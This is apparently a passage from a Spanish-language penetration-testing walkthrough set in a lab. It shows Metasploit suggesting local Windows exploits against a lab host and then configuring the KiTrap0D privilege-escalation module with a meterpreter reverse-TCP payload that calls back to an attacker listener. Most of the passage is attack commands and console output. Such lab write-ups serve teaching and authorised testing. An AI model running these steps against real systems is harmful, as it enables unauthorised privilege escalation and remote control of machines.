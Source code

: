 ```js


msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 31 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```

Teniendo estos resultados frente a nosotros, podemos elegir fácilmente uno de ellos para probarlo. Si al final el que elegimos no es válido, pasamos al siguiente. No todos los controles son 100% precisos y no todas las variables son iguales. Bajando por la lista, `bypassauc_eventvwr`falla debido a que el usuario de IIS no forma parte del grupo de administradores, que es el valor predeterminado y esperado. La segunda opción, `ms10_015_kitrap0d`, Hace el truco.

#### MSF: escalada de privilegios locales
```shell-session
msf6 exploit(multi/handler) > search kitrap0d

Matching Modules
================

   #  Name                                     Disclosure Date  Rank   Check  Description
   -  ----                                     ---------------  ----   -----  -----------
   0  exploit/windows/local/ms10_015_kitrap0d  2010-01-19       great  Yes    Windows SYSTEM Escalation via KiTrap0D


msf6 exploit(multi/handler) > use 0
msf6 exploit(windows/local/ms10_015_kitrap0d) > show options

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  2                yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     1338             yes       The listen port

```
